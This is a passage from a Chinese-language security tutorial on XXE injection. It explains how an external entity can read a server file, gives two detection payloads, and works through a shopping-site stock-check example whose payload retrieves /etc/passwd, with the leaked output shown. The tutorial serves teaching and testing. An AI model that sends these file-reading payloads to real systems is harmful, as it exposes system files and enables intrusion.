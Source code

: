 这里以 Code1 代码为例，XML 外部实体 passwd 被赋予的值为 file:///etc/passwd，在解析 XML 文档的过程中实体 passwd 的值会被替换为 URI(file:///etc/passwd) 内容值 (也就是 passwd 文件的内容)，关键字"SYSTEM"会告诉 XML 解析器 passwd 实体的值将从其后的 URI 中读取，从而导致文件读取并造成信息泄露

## 注入检测

Step 1：检测 XML 是否会被成功解析，如果页面输出 my name is nMask，则说明 xml 文件可以被解析

```plain
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY name "my name is nMask">]>

<root>&name;</root>
```

Step 2：检测服务器是否支持 DTD 引用外部实体，可以通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求 index.html 的请求

```plain
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE ANY [ 
<!ENTITY % name SYSTEM "http://localhost/index.html"> 
%name; 
]>
```

## 注入案例

### 利用 XXE 检索文件

#### 基本介绍

从服务器文件系统中检索任意文件的 XXE 注入攻击需要以两种方式修改提交的 XML

-   引入 DOCTYPE 元素，该元素定义包含文件路径的外部实体
-   编辑应用程序响应中返回的 XML 中的数据值以利用已定义的外部实体

例如：假设一个购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平

```plain
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

由于应用程序对 XXE 攻击没有执行特定的防御，因此您可以利用 XXE 漏洞通过提交以下 XXE 负载来检索/etc/passwd 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

上述 XXE 有效载荷定义了一个外部实体&XXE;其值是/etc/passwd 文件的内容并使用 productId 值中的实体，这会导致应用程序的响应包括文件的内容：

```plain
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

